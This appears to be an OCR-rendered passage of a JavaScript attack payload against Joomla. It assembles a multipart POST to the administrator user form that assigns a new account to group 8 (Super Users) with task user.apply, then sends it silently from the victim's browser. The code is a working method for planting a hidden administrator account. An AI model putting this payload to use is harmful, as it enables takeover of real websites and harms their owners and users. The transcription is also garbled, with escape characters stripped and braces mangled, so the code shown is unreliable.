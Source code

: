 ```
            "rnContent-Disposition: form-data; name="jform[registerDate]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[lastvisitDate]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[lastResetTime]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[resetCount]"" +
            "rnrn0rn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[sendEmail]"" +
            "rnrn0rn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[block]"" +
            "rnrn0rn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[requireReset]"" +
            "rnrn0rn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[id]"" +
            "rnrn0rn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[groups][]"" +
            "rnrn8rn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[params][admin_style]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[params][admin_language]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[params][language]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[params][editor]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[params][helpsite]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="jform[params][timezone]"" +
            "rnrnrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="task"" +
            "rnrnuser.applyrn" +
            space + boundary +
            "rnContent-Disposition: form-data; name="" + id + """ +
            "rnrn1rn" +
            space + boundary + "--rn";
        req.onload = function() `{`
            if (req.status &gt;= 200 &amp;&amp; req.status &lt; 400) `{`
                var resp = req.responseText;
                console.log(resp);
            `}`
        `}`;
        req.send(multipart);
    `}`
`}`;
request.send();
```
